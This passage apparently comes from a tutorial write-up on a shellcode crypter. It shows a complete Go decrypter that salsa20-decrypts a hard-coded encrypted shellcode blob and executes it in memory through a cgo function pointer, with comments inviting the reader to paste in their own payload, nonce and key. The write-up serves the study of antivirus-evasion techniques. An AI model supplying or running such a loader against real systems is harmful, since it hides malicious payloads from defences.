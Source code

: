 ## Decrypter

To decrypt the shellcode, the same `salsa20.XORKeyStream` function is called using the original nonce and key.

The decrypter code is shown below:
```golang
package main

/*
void call_shellcode(char *code) {
        int (*ret)() = (int(*)())code;
        ret();
}
*/
import "C"
import "fmt"
import "unsafe"
import "golang.org/x/crypto/salsa20"

func main() {
    fmt.Printf("Shellcode code decrypter\n")

    // Paste encrypted shellcode here
    in := []byte { 0x79,0x46,0x15,0x27,0xa6,0xdb,0xbc,0x5,0x84,0x97,0x83,0x7c,0x4f,0xed,0x81,0xd,0xf,0x93,0x8e,0x7c,0xd3,0xa5,0x74,0x99,0xaa,0xcd,0xbe,0xd0,0x49,0x54,0xce,0x9d,0xe7,0x4a,0x64,0x95,0xc3,0x83,0xb8,0x58,0x4a,0xe4,0x87,0x49,0xb3,0x6e,0x6a,0x32,0x76 }

    out := make([]byte, len(in))

    // Paste nonce here
    nonce := []byte { 0xc6,0x2f,0xb2,0xd1,0x94,0x7b,0x47,0xa6,0x51,0x5d,0x57,0xfb,0x8a,0x2c,0x3e,0x7f,0x43,0x5a,0xfc,0xbb,0x24,0x4d,0xc7,0xbc }

    // Paste key here
    key := [32]byte { 0x24,0x90,0xef,0x80,0x66,0xee,0xda,0x52,0xfa,0xb9,0x8,0x37,0x3f,0x8e,0x1c,0x3b,0x0,0xec,0x7,0x19,0x5a,0x1f,0x94,0xe7,0x2e,0xdf,0xee,0x8d,0x9,0x63,0xe4,0xb5 }

    salsa20.XORKeyStream(out, in, nonce, &key)

    fmt.Printf("Decrypted shellcode: ")
    for _, element := range out {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")
    fmt.Printf("Shellcode length: %d\n", len(out))
    fmt.Printf("Executing shellcode...\n")
    C.call_shellcode((*C.char)(unsafe.Pointer(&out[0])))
}
```

## Using the crypter
